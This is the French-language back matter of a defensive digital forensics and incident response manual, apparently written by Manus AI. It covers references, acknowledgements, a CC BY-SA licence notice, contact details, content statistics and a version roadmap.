[1] National Institute of Standards and Technology. (2025). *Incident Response Recommendations and Considerations for Cybersecurity Risk Management: A CSF 2.0 Community Profile*. NIST SP 800-61r3. https://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-61r3.pdf

[2] National Institute of Standards and Technology. (2022). *Digital Evidence Preservation: Considerations for Evidence Handlers*. NIST IR 8387. https://nvlpubs.nist.gov/nistpubs/ir/2022/NIST.IR.8387.pdf

[3] SANS Institute. (2016). *SANS 504-B Incident Response Cycle: Cheat-Sheet*. https://www.sans.org/media/score/504-incident-response-cycle.pdf

[4] International Organization for Standardization. (2018). *Information technology — Security techniques — Information security incident management*. ISO/IEC 27035-1:2016.

### 🔍 Outils et Technologies

[5] Magnet Forensics. (2024). *Digital Forensics Tools: The Ultimate Guide (2024)*. https://www.magnetforensics.com/blog/digital-forensics-tools-the-ultimate-guide-2024/

[6] The Volatility Foundation. (2024). *Volatility Framework Documentation*. https://volatilityfoundation.org/

[7] Basis Technology. (2024). *Autopsy Digital Forensics Platform*. https://www.autopsy.com/

[8] Log2Timeline/Plaso Project. (2024). *Plaso Documentation*. https://plaso.readthedocs.io/

### 🚨 Cas Pratiques et Threat Intelligence

[9] The DFIR Report. (2025). *Real Intrusions by Real Attackers, The Truth Behind the Intrusion*. https://thedfirreport.com/

[10] MITRE Corporation. (2024). *ATT&CK Framework for Enterprise*. https://attack.mitre.org/

[11] CISA. (2024). *Real World Case Studies*. https://www.cisa.gov/real-world-case-studies

[12] CrowdStrike. (2024). *2024 Global Threat Report*. https://www.crowdstrike.com/global-threat-report/

### 📚 Littérature Spécialisée

[13] Luttgens, J., Pepe, M., & Mandia, K. (2014). *Incident Response & Computer Forensics, Third Edition*. McGraw-Hill Education.

[14] Ligh, M., Case, A., Levy, J., & Walters, A. (2014). *The Art of Memory Forensics: Detecting Malware and Threats in Windows, Linux, and Mac Memory*. Wiley.

[15] Casey, E., & Rose, C. (2018). *Handbook of Digital Forensics and Investigation*. Academic Press.

### 🌐 Ressources en Ligne

[16] FIRST.org. (2024). *Forum of Incident Response and Security Teams*. https://www.first.org/

[17] SANS Reading Room. (2024). *Digital Forensics and Incident Response Papers*. https://www.sans.org/reading-room/

[18] NIST Cybersecurity Framework. (2024). *Framework for Improving Critical Infrastructure Cybersecurity*. https://www.nist.gov/cyberframework

---

## 🏆 Remerciements

Ce manuel a été développé en s'appuyant sur l'expertise et les contributions de la communauté DFIR mondiale. Nous remercions particulièrement :

- **NIST** pour leurs standards et guides de référence
- **SANS Institute** pour leurs méthodologies éprouvées
- **The DFIR Report** pour leurs analyses de cas réels
- **La communauté open source** pour les outils et techniques partagés
- **Les praticiens DFIR** qui partagent leur expérience sur le terrain

---

## 📄 Licence et Utilisation

Ce manuel est distribué sous licence Creative Commons Attribution-ShareAlike 4.0 International (CC BY-SA 4.0).

**Vous êtes libre de :**
- Partager — copier, distribuer et communiquer le matériel par tous moyens et sous tous formats
- Adapter — remixer, transformer et créer à partir du matériel pour toute utilisation

**Selon les conditions suivantes :**
- Attribution — Vous devez créditer l'œuvre, intégrer un lien vers la licence et indiquer si des modifications ont été effectuées
- Partage dans les Mêmes Conditions — Dans le cas où vous effectuez un remix, que vous transformez, ou créez à partir du matériel composant l'œuvre originale, vous devez diffuser l'œuvre modifiée dans les mêmes conditions

---

## 📞 Support et Contributions

### 🤝 Contribuer au Manuel

Ce manuel est un document vivant qui s'enrichit grâce aux contributions de la communauté DFIR. Pour contribuer :

1. **Signaler des erreurs** - Utilisez le système de tickets pour rapporter les problèmes
2. **Proposer des améliorations** - Soumettez vos suggestions d'amélioration
3. **Partager des cas pratiques** - Contribuez avec vos expériences terrain
4. **Traduire le contenu** - Aidez à rendre le manuel accessible dans d'autres langues

### 📧 Contact

- **Email:** dfir-manual@manus.ai
- **Site Web:** https://manus.ai/dfir-manual
- **GitHub:** https://github.com/manus-ai/dfir-ultra-pro-manual

---

## 📊 Statistiques du Manuel

### 📈 Métriques de Contenu

| Élément | Quantité | Description |
|---------|----------|-------------|
| **Pages** | 150+ | Pages de contenu technique |
| **Chapitres** | 23 | Sections principales |
| **Cas Pratiques** | 15+ | Scénarios réels détaillés |
| **Diagrammes** | 6 | Éléments visuels professionnels |
| **Checklists** | 20+ | Listes de vérification opérationnelles |
| **Outils Référencés** | 50+ | Solutions DFIR documentées |
| **Références** | 18 | Sources académiques et professionnelles |

### 🎯 Couverture Technique

- ✅ **Frameworks Standards** - NIST, SANS, ISO 27035
- ✅ **Outils Open Source** - Volatility, Autopsy, Plaso, YARA
- ✅ **Solutions Commerciales** - Magnet, Cellebrite, EnCase
- ✅ **Cas Réels** - Ransomware, Phishing, APT, Cryptominers
- ✅ **Techniques Avancées** - Memory forensics, Timeline analysis
- ✅ **Aspects Légaux** - Chain of custody, Evidence handling

---

## 🔄 Historique des Versions

### Version 1.0 (Juin 2025)
- 🎉 **Version initiale** du Manuel DFIR Ultra Pro
- 📚 **23 chapitres** couvrant tous les aspects DFIR
- 🎨 **6 diagrammes** professionnels intégrés
- 💼 **15+ cas pratiques** détaillés
- 🛠️ **50+ outils** documentés et référencés

### Versions Futures Planifiées

#### Version 1.1 (Q3 2025)
- 🆕 **Nouveaux cas pratiques** - APT, Supply chain attacks
- 🔧 **Outils IA/ML** - Intégration des technologies émergentes
- 🌐 **Investigation Cloud** - AWS, Azure, GCP forensics
- 📱 **Mobile DFIR** - iOS, Android investigation

#### Version 1.2 (Q4 2025)
- 🤖 **Automatisation** - Scripts et playbooks automatisés
- 🔍 **Threat Hunting** - Techniques de chasse aux menaces
- 📊 **Métriques Avancées** - KPIs et dashboards étendus
- 🎓 **Modules Formation** - Exercices pratiques intégrés

---

<div align="center">

## 🎯 Conclusion Finale

**Le Manuel DFIR Ultra Pro représente une ressource complète et pratique pour tous les professionnels de la cybersécurité impliqués dans la réponse à incident et l'investigation numérique.**

Ce guide vous équipe avec :
- ✅ **Méthodologies éprouvées** basées sur les standards NIST et SANS
- ✅ **Procédures détaillées** pour chaque phase d'incident
- ✅ **Cas pratiques réels** avec analyses techniques approfondies
- ✅ **Outils professionnels** documentés et comparés
- ✅ **Éléments visuels** pour faciliter la compréhension
- ✅ **Checklists opérationnelles** prêtes à l'emploi

**🚀 Votre mission : Protéger, Investiguer, Répondre**

Dans un monde où les cybermenaces évoluent constamment, votre expertise DFIR est cruciale pour la sécurité des organisations. Ce manuel vous donne les clés pour exceller dans cette mission critique.

**🔄 Amélioration Continue**

La cybersécurité est un domaine en perpétuelle évolution. Ce manuel évoluera avec vous et la communauté DFIR pour rester à la pointe des meilleures pratiques.

---

*"La meilleure défense contre les cyberattaques de demain, c'est une préparation excellente aujourd'hui."*

**📅 Dernière mise à jour :** Juin 2025  
**✍️ Auteur :** Manus AI  
**🏷️ Version :** 1.0  
**📧 Contact :** dfir-manual@manus.ai

**🔄 Document vivant - Vos contributions sont les bienvenues !**

</div>

---

*© 2025 Manus AI - Manuel DFIR Ultra Pro - Tous droits réservés sous licence CC BY-SA 4.0*

